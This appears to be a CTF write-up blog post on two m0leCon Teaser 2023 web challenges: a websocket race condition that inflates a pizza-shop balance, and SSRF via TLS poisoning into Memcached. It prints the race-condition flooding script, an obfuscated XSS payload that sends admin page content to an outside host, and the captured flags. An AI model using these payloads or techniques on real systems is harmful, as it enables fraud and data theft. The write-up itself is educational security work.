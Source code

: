 ```yaml
---
layout: post
title: m0leCon Teaser 2023 Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[m0leCon Teaser 2023](https://ctf.m0lecon.it/)  
[On CTFtime](https://ctftime.org/event/1898)

Overall good CTF with challenging original fun challenges.

On this page:

- [goldinospizza2](#goldinospizza2) - Web, websocket API, exploit race condition
- [Print template 2](#print-template-2) - SSRF via TLS poisoning to request Memcached. I did not solve this challenge, did the writeup based on discussions.

## goldinospizza2

The challenge was released at about 2:40 AM BST as the "[~~patched~~ *improved* version of `goldinospizza`](https://discord.com/channels/1100159162794655904/1100159163096633447/1106757967291879506)", which was about over 8 hours into the CTF. It was just before I was planning to go to bed, but the challenge looked solvable😅.

The challenge was a web challenge with a website that allowed you to order pizza with a registered account. Most of the pizzas' prices were ranging between 6 and 15, but there was one pizza named "The flagship of pizzas" that costs 1,000,000. The flag will be shown if this pizza is successfully ordered. The initial account balance is 30.

Looking through the code, there are two websocket API functions that are interesting, one is `order`, and another one is `cancel`. The `order` function is used to order a pizza, and the `cancel` function is used to cancel an order and get refund.

The `order` function is implemented as follows:

```python
def order(data, ws, n):
    # Some checks on input omitted
    for item in data["orders"]:
        # Some checks on input omitted
        if type(item["quantity"]) is not int:
            db.session.rollback()
            raise AssertionError("ONE OF YOUR 🍕 'quantity' IS NOT INT")
        if item["quantity"] <= 0:
            db.session.rollback()
            raise AssertionError("ONE OF YOUR 🍕 'quantity' IS NOT VALID")
        product = db.session.execute(db.select(Product).filter(
            Product.id == item["product"])).scalars().one_or_none()
        if product is None:
            db.session.rollback()
            raise AssertionError("WE DON'T SELL THAT 🍕")
        quantity = item["quantity"]
        current_user.balance -= product.price * quantity
        if current_user.balance < 0:
            db.session.rollback()
            raise AssertionError("NO 🍕 STEALING ALLOWED!")
        db.session.add(Order(
            user_id=current_user.id,
            product_id=product.id,
            product_quantity=quantity,
            product_price=product.price
        ))
        if product.id == 0 and quantity > 0:
            ws.send(
                f"WOW you are SO rich! Here's a little extra with your golden special 🍕: {os.environ['FLAG']}")
    db.session.add(current_user)
    db.session.commit()
    return len(data["orders"]), {"ok": True, "balance": current_user.balance, "orders": _orders()}
```

In the code, I identified that there is a race condition that can be exploited to make total order larger than we have in the balance, and cancel the order to refund so we can have more balanced than we started with.

We can blast with multiple websocket requests to make order, and if the previous order has not been committed to the database, the next request is still checked against the old balance.

To make programming easier, I did scripting within the browser console within the context of the website. After some initial test, my balance increased to 66.00 from the initial 30.00.

![Balance increased to 66.00](/assets/image/m0lecon-teaser-2023-writeup/pizza-balance.png)

The script I used to blast the order is as follows:

```javascript
let message = {
    "request": "order",
    "orders": [{
        "product": 19,
        "quantity": 9792,
    }, ],
}
for (let i = 1; i < 20; i++) {
    const ws = new WebSocket(`wss://goldinospizza2.challs.m0lecon.it/sock`);
    ws.addEventListener("open", (event) => {
        ws.send(JSON.stringify(message))
    })
}
```

The connection will get killed after some numbers of requests. To scale this up, when I repeated the process, I increased the quantity of each of the order to the amount that I can afford with the balance. Then my available balance increased increases exponentially.

With enough balance, order the golden "The flagship of pizzas", get the flag and submitted at 4:00 AM BST. Enjoy the 🍕:

```
ptm{https://youtu.be/Uzryuem5NDc lets make pizza greater than zero again https://www.giallozafferano.com/recipes/Pizza-Margherita.html}
```

## Print template 2

A challenge with a web app under the misc category. IIRC the challenge was released after a while since the CTF started. It was a hard challenge, with team "organizers" first blooded it at 6:06 AM BST, and team "Kalmarunionen" submitted the flag half an hour before the CTF ends. I was not able to solve it myself. This writeup follows [Sam.ninja](https://sam.ninja/) and [pilvar](https://twitter.com/pilvar222)'s solution and payloads, which appears to be the [intended solution](https://discord.com/channels/1100159162794655904/1100159163096633453/1106990892780359771 "Just link to a Discord message that one of the challenge author Xato confirms it is the intended solution").

The webapp lets user import templates and "print" them by substitute the place holders in the template with data, and download the print.

![Import template](/assets/image/m0lecon-teaser-2023-writeup/import-template.png)

The user can also submit a "premium request" for review, which will be reviewed by the admin bot. Part of the template which renders the bot will visit is as follows:

```html
<img src=data:image/png;base64,<%= request.img %>>
<p class="my-3"><%= request.msg %></p>
```

As with `<%=` tag in EJS, the output will be HTML escaped, so it is not possible to inject script with `msg`, however it is possible to inject script in the `img` tag with `onerror` attribute.

On the web server, the file uploaded will be encoded in base64 and stored in memcached as the `img` value being used when rendering the template. With it rendered into base64, it is not possible to inject script into the `img` tag. However, if it is possible to control the content stored into memcached, it is possible to inject script into the `img` tag.

### SSRF via TLS Poisoning

We cannot make request from our machine directly, we will need to leverage SSRF to make request to memcached.

The "import template" function allows us to import template from a URL. The URL can be a http or https URL, and the server will make the request. The SSRF is exploited via TLS session resumption by injecting payload into session ID. As memcached commands are newline terminated and invalid input will be skipped, it is possible to inject command with new lines. [This TLS Poison PoC](https://github.com/jmdx/TLS-poison) is used to implement the exploit. More details about the exploit can be found in [the presentation at DEF CON Safe Mode](https://youtube.com/watch?v=qGpAJxfADjo).

With some modification to the PoC, a customised TLS server and DNS server for DNS rebinding is set up. Make HTTPS request to the TLS server, the TLS server will response a redirect with the TLS session ID being the payload. The client will be repeatedly redirected to the TLS server until the client makes another request to the DNS server, which will resolve to the target IP. As the TLS session ID is keyed by the hostname and port but not IP address, the session ID is reused for the request to the target IP. The request will be made to the target IP with the payload in the session ID.

It is shown in the image below that the payload is in the request made by the curl client to the localhost target.

![TLS Poisoning](/assets/image/m0lecon-teaser-2023-writeup/tls-poisoning.png)

### Send Payload into Memcached

When request the bot to review, the bot will visit every unvisited requests by the user where an UUID is generated and saved when the request is submitted. The UUID is also used as the key to store the request in memcached. However, the UUID is not revealed to the user. The UUID is generated with `Math.random`. The user IDs are also UUIDs generated with the same library, with knowing enough sequentially generated user IDs, it is possible to predict the future UUIDs.

In this writeup, I skipped the steps bruteforcing for the UUIDs, and just use the UUIDs that is printed to console when the request is submitted and the server generates it.

The script the bot executes is as follows:

```javascript
fetch("/")
    .then(x=>x.text())
    .then(x=>x.split("</h3>")[1].trim())
    .then(x=>fetch("http://x.cjxol.com/"+x))
```

The final payload for TLS session ID becomes the following:

```
set message_cd330b28-93e9-4524-a70b-d1a03fac941c 0 0 434
{"msg":"whatever","img":"a id=deny onerror=eval(String.fromCharCode(102,101,116,99,104,40,34,47,34,41,46,116,104,101,110,40,120,61,62,120,46,116,101,120,116,40,41,41,46,116,104,101,110,40,120,61,62,120,46,115,112,108,105,116,40,34,60,47,104,51,62,34,41,91,49,93,46,116,114,105,109,40,41,41,46,116,104,101,110,40,120,61,62,102,101,116,99,104,40,34,104,116,116,112,58,47,47,120,46,99,106,120,111,108,46,99,111,109,47,34,43,120,41,41))"}
set message_cd330b28-93e9-4524-a70b-d1a03fac941c 0 0 434
{"msg":"whatever","img":"a id=deny onerror=eval(String.fromCharCode(102,101,116,99,104,40,34,47,34,41,46,116,104,101,110,40,120,61,62,120,46,116,101,120,116,40,41,41,46,116,104,101,110,40,120,61,62,120,46,115,112,108,105,116,40,34,60,47,104,51,62,34,41,91,49,93,46,116,114,105,109,40,41,41,46,116,104,101,110,40,120,61,62,102,101,116,99,104,40,34,104,116,116,112,58,47,47,120,46,99,106,120,111,108,46,99,111,109,47,34,43,120,41,41))"}
```

The payload is repeated twice as the injection sometimes does not work as expected. The image tag sets ID to `deny` as the bot will click on the deny button which can cause a navigation before the script is executed. With image ID set as `deny`, the bot will not click on the deny button and click the image instead which does not cause a navigation.

In the `get-template` page, import template from the URL pointing to the TLS server. After a while, the web server will make request to Memcached and the payload will be stored in Memcached.

When querying Memcached directly, we can see the payload is stored in Memcached.

![Payload is in Memcached](/assets/image/m0lecon-teaser-2023-writeup/memcached.png)

When requested to review the requests, the bot will visit the page and execute the script. The flag is exfiltrated.

![Flag is exfiltrated](/assets/image/m0lecon-teaser-2023-writeup/flag.png)

The image is showing the fake flag for testing, and the real flag is:

```
ptm{why_an0ther_ch4ll_w1th_4_b0t??}
```
